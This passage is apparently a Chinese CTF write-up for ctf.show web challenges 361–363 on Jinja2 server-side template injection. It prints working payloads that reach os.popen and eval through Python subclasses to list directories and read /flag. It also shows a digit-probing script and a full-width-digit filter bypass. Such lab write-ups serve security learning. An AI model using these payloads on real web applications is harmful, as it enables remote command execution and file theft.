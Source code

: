 ![image-20240225134714423](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240225134714423.png)

执行shell命令

```
http://53e07393-3341-47a7-b048-e4773c51a22c.challenge.ctf.show/?name={{''.__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('ls /').read()}}
```

![image-20240225134927105](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240225134927105.png)

读取flag文件

![image-20240225135000860](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240225135000860.png)

### [web362]过滤数字

开始过滤数字，写个python脚本测试一下哪些数字没被过滤

```python
import requests

for i in range(10):
    url = "http://e789961f-7694-423c-a72f-d00e630f15b3.challenge.ctf.show/?name="+str(i)
    res = requests.get(url=url).text
    if ":(" not in res:
        print(i)
```

![image-20240229163736123](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240229163736123.png)

可以用全角数字进行绕过

```
‘０’,‘１’,‘２’,‘３’,‘４’,‘５’,‘６’,‘７’,‘８’,‘９’
```

payload:

```
//根据上题序列，替换为全角数字
?name={{"".__class__.__bases__[０].__subclasses__()[１３２].__init__.__globals__['popen']('cat /flag').read()}}

以下payload是抄的，暂时抄一下
?name={{a.__init__.__globals__['__builtins__'].eval('__import__("os").popen("cat /flag").read()')}}

?name={{''.__class__.__bases__[0].__subclasses__()[１３２].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /flag").read()')}}

?name={{ config.__class__.__init__.__globals__['os'].popen('cat ../flag').read() }}
```

### [web363]过滤单双引号

`request.args.a`绕过
